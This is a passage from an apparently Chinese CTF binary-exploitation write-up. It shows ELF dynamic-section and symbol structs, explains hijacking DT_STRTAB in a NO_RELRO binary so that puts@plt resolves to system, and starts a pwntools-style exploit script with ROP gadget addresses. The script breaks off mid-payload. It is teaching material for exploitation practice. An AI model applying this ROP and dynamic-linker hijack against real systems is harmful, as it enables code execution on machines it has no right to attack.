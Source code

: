 ```c
      Elf64_Xword d_val;		/* Integer value */
      Elf64_Addr d_ptr;			/* Address value */
    } d_un;
} Elf64_Dyn;

/* Legal values for d_tag (dynamic entry type).  */

#define DT_NULL		0		/* Marks end of dynamic section */
#define DT_NEEDED	1		/* Name of needed library */
#define DT_PLTRELSZ	2		/* Size in bytes of PLT relocs */
#define DT_PLTGOT	3		/* Processor defined value */
#define DT_HASH		4		/* Address of symbol hash table */
#define DT_STRTAB	5		/* Address of string table */
#define DT_SYMTAB	6		/* Address of symbol table */
// ...
#define DT_REL		17		/* Address of Rel relocs */
// ...
```

- `Elf64_Sym`

```c
typedef struct {
  Elf64_Word  st_name;     /* Symbol name (string tbl index) */
  unsigned char st_info;   /* Symbol type and binding */
  unsigned char st_other;  /* Symbol visibility under glibc>=2.2 */
  Elf64_Section st_shndx;  /* Section index */
  Elf64_Addr  st_value;    /* Symbol value */
  Elf64_Xword st_size;     /* Symbol size */
} Elf64_Sym;
```

## `NO_RELRO` 直接劫持 strtab

`NO_RELRO` 的场景下可以直接写 `_DYNAMIC` 区域内存，在另一个地方伪造新的 strtab 并存入 `_DYNAMIC.DT_STRTAB`：

无需泄漏 libc 地址，最终可以把 victim 函数@plt + offset 的地址当作指定 libc 函数在 ROP 链中进行调用（这里时 puts@plt+6 被解析成 system 函数实现利用）：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

evil_buf = 0x600C28 + 8
pop_rdi_ret = 0x00000000004007F3
pop_rsi_2_ret = 0x00000000004007F1
_DYNMIC_STRTAB = 0x600A48

ru(b"Input your name: \n")
payload = flat(
    {
        0x28: [
            pop_rdi_ret,
```